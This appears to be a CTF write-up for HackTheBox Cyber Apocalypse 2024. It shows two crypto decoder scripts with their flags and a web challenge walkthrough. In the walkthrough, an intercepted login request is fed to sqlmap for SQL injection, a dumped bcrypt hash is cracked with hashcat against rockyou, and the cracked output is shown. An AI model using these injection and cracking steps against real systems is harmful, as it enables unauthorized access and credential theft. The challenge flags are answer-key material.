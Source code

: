 # Cyber Apocalypse 2024: Hacker Royale Write-up

<img src="https://ctf.hackthebox.com/storage/ctf/banners/DREwio2TXADvSLScO07rux2olm6vjUoEXQPPAKBC.jpg" width="500" height="288">

## Crypto

### Task - Primary Knowledge

![image](https://github.com/zer00d4y/writeups/assets/128820441/c7a2c26a-40e2-448d-a40c-e71cf8661756)

Decoder

    import math
    from Crypto.Util.number import long_to_bytes
    
    def decrypt(c, n, e):
        phi = (n - 1) // 2
        d = pow(e, -1, phi)
        m = pow(c, d, n)
        return long_to_bytes(m)
    
    n = 144595784022187052238125262458232959109987136704231245881870735843030914418780422519197073054193003090872912033596512666042758783502695953159051463566278382720140120749528617388336646147072604310690631290350467553484062369903150007357049541933018919332888376075574412714397536728967816658337874664379646535347
    e = 65537
    c = 15114190905253542247495696649766224943647565245575793033722173362381895081574269185793855569028304967185492350704248662115269163914175084627211079781200695659317523835901228170250632843476020488370822347715086086989906717932813405479321939826364601353394090531331666739056025477042690259429336665430591623215
    
    decrypted_message = decrypt(c, n, e)
    print(decrypted_message)

FLAG:

    HTB{0h_d4mn_4ny7h1ng_r41s3d_t0_0_1s_1!!!}

### Task - Makeshift

![image](https://github.com/zer00d4y/writeups/assets/128820441/8775b769-6274-43c6-a9b5-6ec4cb68d384)

Decoder

    def decode_flag(encoded_flag):
        decoded_flag = ''
        for i in range(0, len(encoded_flag), 3):
            decoded_flag += encoded_flag[i+2]
            decoded_flag += encoded_flag[i]
            decoded_flag += encoded_flag[i+1]
        return decoded_flag[::-1]
    
    encoded_flag = "!?}De!e3d_5n_nipaOw_3eTR3bt4{_THB"
    decoded_flag = decode_flag(encoded_flag)
    print(decoded_flag)

FLAG:

    HTB{4_b3tTeR_w3apOn_i5_n3edeD!?!}

## WEB

### Task - KORP Terminal

We can see the web authentication interface.

![image](https://github.com/user-attachments/assets/550917ed-ef90-4685-914e-09a39ef3aa0a)

Try to login and intercept the request.

Request:

    POST / HTTP/1.1
    Host: localhost:1337
    Content-Length: 27
    Cache-Control: max-age=0
    sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Linux"
    Upgrade-Insecure-Requests: 1
    Origin: http://localhost:1337
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: http://localhost:1337/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
    Connection: close
    
    username=test*&password=test*

Now, we can save the request and test for sql injection.

### SQL-Map

`sqlmap -r request.txt --ignore-code 401`

![image](https://github.com/user-attachments/assets/2bec84ee-0b66-4245-b3e4-679979f5f7a3)



![image](https://github.com/user-attachments/assets/46b39c28-852f-4724-8fb3-2f0cdc16523f)

Hash:

    $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.

### Hashcat 

It's a bcrypt hashed password, cracking it with hashcat!

`hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt`


    $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
                                                              
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
    Hash.Target......: $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8...63yiv.
    Time.Started.....: Tue Dec 31 11:42:17 2024 (1 min, 5 secs)
    Time.Estimated...: Tue Dec 31 11:43:22 2024 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:       22 H/s (5.95ms) @ Accel:6 Loops:16 Thr:1 Vec:1
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Progress.........: 1404/14344385 (0.01%)
    Rejected.........: 0/1404 (0.00%)
    Restore.Point....: 1368/14344385 (0.01%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4080-4096
    Candidate.Engine.: Device Generator
    Candidates.#1....: lacoste -> harry
    Hardware.Mon.#1..: Util: 80%

Now we have credentials for admin, login and get the flag!
